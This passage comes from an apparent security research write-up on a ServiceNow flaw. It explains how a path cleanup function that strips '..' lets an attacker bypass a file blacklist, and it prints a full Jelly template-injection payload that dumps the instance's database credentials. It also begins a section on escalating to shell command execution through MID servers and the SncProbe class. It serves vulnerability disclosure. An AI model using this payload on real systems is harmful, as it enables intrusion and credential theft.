         @GlideScriptable
        public BufferedReader getBufferedReader() throws FileNotFoundException {
            return new BufferedReader(new FileReader(this.getFile()));
        }
    
            @GlideScriptable
        public File getFile() {
            // .. snip .. 
            return SysFileUtil.getPath(this.fFileName);
        }
    
    // -->
    // SysFileUtil.java
    
        private static File getPath(String path, boolean useProxy) {
            path = SysFileUtil.cleanupPath(path);
            File f = SysFileUtil.createFile(path, useProxy);
            try {
                if (f.exists()) {
                    return f;
                }
            }
            catch (SecurityException securityException) {
                // empty catch block
            }
            return SysFileUtil.getPathInGlideHome(path, false, useProxy);
        }
    
        public static String cleanupPath(String path) {
            return path.replaceAll("\\.\\.", "");
        }

The filename we provide to `SecurelyAccess` gets passed into
`SysFileUtil.cleanupPath`, which removes the double dot `..` from the path
before accessing it! This means we can pass a path like
`/glide/node/[[node]]/co..nf/glide.db.properties` to bypass the blacklist!

The rest of the payload is simply a matter of reading the ServiceNow docs. We
settled on this payload to dump the database credentials:

    
    
    <style><j:jelly xmlns:j="jelly:core" xmlns:g='glide'><g:evaluate>z=new Packages.java.io.File("").getAbsolutePath();z=z.substring(0,z.lastIndexOf("/"));u=new SecurelyAccess(z.concat("/co..nf/glide.db.properties")).getBufferedReader();s="";while((q=u.readLine())!==null)s=s.concat(q,"\n");gs.addErrorMessage(s);</g:evaluate></j:jelly></style>

Replacing our earlier payload with this, we dump the full database credentials
of the instance:

### Bonus - Going for Full Compromise

As the introduction mentions, most production setups have one or more MID
servers configured. These allow command execution by design. ServiceNow
provides the` SncProbe `class, which allows running a shell command directly
on the instance. A sample payload to get pingbacks is as follows:
